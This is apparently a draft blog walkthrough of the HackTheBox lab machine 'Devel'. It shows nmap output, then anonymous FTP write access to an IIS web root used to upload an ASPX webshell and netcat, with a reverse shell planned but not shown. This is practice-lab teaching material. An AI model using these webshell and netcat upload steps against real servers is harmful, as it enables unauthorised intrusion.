 ```yaml
---
layout: post
title:  "HackTheBox - Devel Writeup"
categories: [HackTheBox]
tags: [pentesting]
draft: true
---
```


# Introduction

This is a writeup for the machine "Devel" (10.10.10.5) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

As usual we're going to start off with our two nmap scans, a full TCP scan using `nmap -sV -sC -p- 10.10.10.5` and `nmap -sU -p- 10.10.10.5` in this case, we only returned ports open on TCP so we're going to look at that now.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-21 16:59 BST
Nmap scan report for 10.10.10.5
Host is up (0.039s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As you can see we've got two ports FTP & HTTP, FTP stands out right away because NMAP has confirmed for us that Anonymous login is allowed, that is a severe miss configuration which we can take advantage of. It even looks like the web server root is also the FTP server root, this is another sysadmin fail. We'll login to that in just a few moments, but first our web server appears to be running IIS 7.5, normally I would look for some low-hanging exploits however, given that the FTP root is the same as the web-server root, and we know that it's running ASP.NET, we're not going to go for that as I think there will be an easier path.

### FTP & HTTP

Upon logging into the FTP server we can see the same files as per the NMAP scan, and by visiting the site on HTTP we can confirm that the web root is the same as the FTP root so we're going to try and upload an ASPX shell, luckily for us there is one built into Kali.

```
ftp> put /usr/share/webshells/aspx/cmdasp.aspx cmd.aspx
local: /usr/share/webshells/aspx/cmdasp.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.01 secs (200.5416 kB/s)
```

On port 80, let's try and visit this page and see what happens, if we look at the screenshot below, we've got a command box, that's good! That means our webshell uploaded correctly as expected.

![asp web-shell](LinxzFade.github.io\assets\images\2019-05-25-Devel\Screenshot-2019-5-25.png)

Now that we know that works, lets try and use this to execute a netcat.exe, we know that we can upload and it's going into the web root folder so this should allow us to leverage this in order to get a reverse shell on the device.

## User Exploitation

Let's put netcat.exe on the device using FTP. It's important to note that we do need to set the FTP transfer mode to binary, else netcat is not going to execute and we'll get an error when trying to execute the file. The webserver was by default using ASCII mode, in general we only want to use ASCII mode for transferring things such as text files and the like, as we're trying to execute something, we switch to binary mode. You can verify the transfer mode the server is using over FTP by using the `type` in our case we are returned `Using ascii mode to transfer files.` hence why we changed it to binary mode by typing `binary`

```
ftp> binary
200 Type set to I.
ftp> put /usr/share/windows-binaries/nc.exe nc.exe
local: /usr/share/windows-binaries/nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
59392 bytes sent in 0.09 secs (639.0480 kB/s)
```

We didn't actually test our webshell yet so let's run a simple `whoami` in the shell and press execute, as you can see in the below screenshot `iis apppool\web` is returned so we know that our webshell for sure works and we know that the webserver is not running as system at least (that'd be a major sysadmin fail).

![asp webshell execution](LinxzFade.github.io/assets/images/2019-05-25-Devel/webshell-execution.png)

